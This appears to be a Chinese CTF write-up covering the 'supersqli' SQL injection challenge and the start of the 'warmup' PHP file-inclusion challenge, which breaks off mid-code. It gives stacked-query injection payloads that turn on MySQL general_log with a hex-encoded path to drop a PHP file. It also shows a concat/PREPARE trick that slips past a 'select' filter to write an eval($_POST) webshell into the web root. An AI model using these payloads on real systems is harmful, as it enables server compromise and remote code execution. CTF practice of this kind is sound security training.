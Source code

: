 用报错注入弄出数据库名:supersqli

version:`10.3.18-MariaDB`

host:6e161107d1dd

port:3306

dir:/var/lib/mysql/

可以执行多条语句，

```
show variables like 'general_log';  -- 查看日志是否开启
set global general_log=on; -- 开启日志功能
show variables like 'general_log_file';  -- 看看日志文件保存位置
set global general_log_file='tmp/general.lg'; -- 设置日志文件保存位置
show variables like 'log_output';  -- 看看日志输出类型  table或file
set global log_output='table'; -- 设置输出类型为 table
set global log_output='file';   -- 设置输出类型为file

```

这些命令都可以执行

试着写个webshell

`1';set global general_log_file=0x2F7661722F7777772F68746D6C2F72652E706870;#`

`1';set global general_log=on;`

 webshell:Access denied. 

草,用prepare执行预定义sql语句/////为啥我搜不到....

```mysql
1';Set @sql=concat("s","elect '<?php @eval($_POST[a]);?>' into outfile '/var/www/html/44",char(46),"php'");PREPARE sqla from @sql;EXECUTE sqla;
```





### warmup



```php

<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
```